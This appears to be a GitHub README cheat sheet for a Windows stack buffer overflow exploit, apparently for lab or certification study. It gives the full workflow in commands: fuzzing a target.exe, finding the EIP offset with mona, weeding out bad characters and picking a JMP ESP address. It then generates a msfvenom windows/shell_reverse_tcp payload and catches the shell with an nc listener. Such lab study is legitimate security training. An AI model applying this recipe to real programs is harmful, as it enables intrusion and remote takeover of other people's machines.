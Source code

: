 # bof
## Buffer Overflows

## Setup
* Open Immunity Debugger as admin
* In Immunity Debugger, set a working folder for mona:
>!mona config -set workingfolder c:\mona\%p

## Fuzzing
* In Kali, create the fuzzer.py script and execute
* Note the size of the largest string sent
* Create a cyclic payload with pattern_create.rb, 400 bytes longer than crashing string size:
>$ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <string+400>
* Create exploit.py with the generated payload
		
## Control EIP
* Relaunch target.exe and run exploit.py
* In Immunity Debugger, run findmsp:
>!mona findmsp -distance 600
* Locate "EIP contains normal pattern: <> (offset <>)"
* Update exploit.py with new values:
  * Set offset variable value in exploit.py to 1978
  * Set payload to empty string
  * Set retn variable to 'BBBB'
* Relaunch target.exe and run exploit.py
* EIP should now be overwritten with 42424242

## Find Bad Characters
### Iteration 0
* Create a bytearray in Mona:
>!mona bytearray -b "\x00"
_Note location of 'bytearray.bin' (c:\mona\*\bytearray.bin)_
* In Kali, create and run a python script to generate bad characters:
```python
from __future__ import print_function

for x in range(1, 256):
    print("\\x" + "{:02x}".format(x), end='')

print()
```
* Update payload variable in exploit.py with badchars string

### Iteration 1..n of n
* Reload target.exe and run exploit.py
* Run !mona compare with the ESP address
>!mona compare -f C:\mona\*\bytearray.bin -a <ESPaddress>
* Generate a new bytearray in Mona, excluding all badchars from the comparison result:
>!mona bytearray -b "\x00\x07\x2e\xa0"
_Note: don't include sequential characters_
* Remove badchars from exploit.py:
>payload = "<all non-bad characters>"
*  All bad characters identified when result: "Unmodified"

## Jump Point
* Run !mona jmp to identify all jump points with addresses that don't contain badchars:
>!mona jmp -r esp -cpb "\x00\x07\x2e\xa0\"
* Choose a jmp address and update "retn" variable in exploit.py, reversing the endianness:
  * Mona address: "0x625011af"
  * Python address: "\xaf\x11\x50\x62"

## Generate Payload and NOPs
* Create a payload with msfvenom:
>msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=<port> EXITFUNC=thread -b "\x00\x07\x08\x2e\x2f\xa0\xa1\xa2\xa3\xa4" -f py
* Update payload of exploit.py with 'buf' variable definition and set payload = buf
* Set padding variable to 16 NOP bytes:
>padding = "\x90" * 16

## Exploitation
* Start nc listener on :port
* Reload target.exe and exploit
